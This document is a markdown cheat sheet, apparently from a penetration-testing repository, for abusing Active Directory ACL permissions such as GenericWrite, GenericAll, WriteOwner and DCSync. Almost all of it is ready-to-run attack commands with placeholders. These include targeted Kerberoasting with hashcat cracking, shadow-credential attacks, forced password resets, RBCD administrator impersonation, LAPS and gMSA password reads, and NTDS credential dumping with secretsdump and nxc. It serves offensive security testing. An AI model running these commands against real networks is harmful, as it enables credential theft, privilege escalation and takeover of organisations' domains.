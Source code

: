 - [GenericWrite](#genericwrite)
- [GenericALL](#genericall)
- [ForceChangePassword](#forcechangepassword)
- [AddMember](#addmember)
- [WriteOwner](#writeowner)
- [AddKeyCredentialLink](#addkeycredentialLink)
- [ReadLAPSPassword](#readlapspassword)
- [ReadGMSAPassword](#readgmsapassword)
- [DCSync](#dcsync)
## GenericWrite
### targetKerberoasting
```bash
python targetedKerberoast.py -v -d <domain> -u <username> -p <password>
```

```bash
hashcat -m 13100 -a 0 <hash_file> rockyou.txt --force
```
### ShadowCredentials
```bash
certipy shadow auto -u username@domain -p <password> -account <target_username> -dc-ip <ip>
```
Using Kerberos
```bash
certipy shadow auto -username username@domain -p <password> -k -account <target_username> -target <dc>
```
## GenericALL
### Password Change
```bash
net rpc password <username> <new_password> -U <domain>/<username>%<hash> -S <dc> --pw-nt-hash
```
### RBCD
```bash
rbcd.py -delegate-from '<machine_name>' -delegate-to '<target>' -dc-ip <ip> -action 'write' '<domain>/<username>:<password>'
```

```bash
getST.py -spn 'cifs/<dc>' -impersonate administrator -dc-ip <ip> '<domain>/<machine_name>:<password>'
```

```bash
export KRB5CCNAME=administrator.ccache
```
## ForceChangePassword
```bash
net rpc password <TargetUser> <new_password> -U "DOMAIN"/"ControlledUser"%"Password" -S <DomainController>
```

```bash
bloodyAD --host <ip> -d <dc> -u <username> -p <password> set password <target_userename> <new_password>
```

```bash
python rpcchangepwd.py <domain>/<username>:<password>@<ip> -newpass <new_password>
```
## AddMember
```
net rpc group addmem <target_group> <username> -U <domain>/<username> -S <dc>
```
## WriteOwner
```bash
owneredit.py -action write -new-owner <username> -target <group_name> <domain>/<username>:<password>
```

```bash
dacledit.py -action 'write' -rights 'WriteMembers' -principal <username> -target-dn <dn> <domain>/<username>:<password>
```

```bash
bloodyAD.py -d <domain> -u <username> -p <password> --host <dc> add groupMember <target_group> <username>
```
## AddKeyCredentialLink
```bash
python3 pywhisker.py -d <domain> --dc-ip <ip> -u <username> -H :<hashes> --target <target_username> --action "add"
```

```bash
certipy shadow auto -username <username>@<domain> -hashes :<hashes> -account <target_username>
```
## ReadLAPSPassword
```bash
nxc smb <target> -u <username> -p <password> --laps
```
## ReadGMSAPassword
```bash
nxc ldap <target> -u <username> -p <password> --gmsa
```
## DCSync
```bash
secretsdump.py <dc> -k
```

```bash
nxc smb <domain> -u <username> -p <password> --ntds
```

```bash
nxc smb <domain> -k --use-kcache --ntds
```
# Resources
- https://www.thehacker.recipes/ad/movement/dacl/
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse
